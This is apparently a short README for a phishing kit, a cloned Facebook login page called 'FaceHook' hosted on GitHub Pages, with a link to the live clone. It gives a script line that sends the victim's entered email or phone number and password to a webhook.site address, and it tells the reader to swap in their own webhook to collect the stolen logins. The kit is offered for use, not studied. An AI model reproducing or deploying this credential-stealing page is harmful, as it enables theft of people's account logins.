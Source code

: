 # login
H4ve S0me Fun

Replace ```https://webhook.site/1a6c6682-deae-47ae-8ae8-7a7c645c3d3a``` 
in
```script.src = 'https://webhook.site/1a6c6682-deae-47ae-8ae8-7a7c645c3d3a?callback=handleResponse&u='+emailOrPhoneValue+'&p='+passwordValue;```
to your webhook url.

FaceHook Clone URL : https://facehookcom.github.io/login/
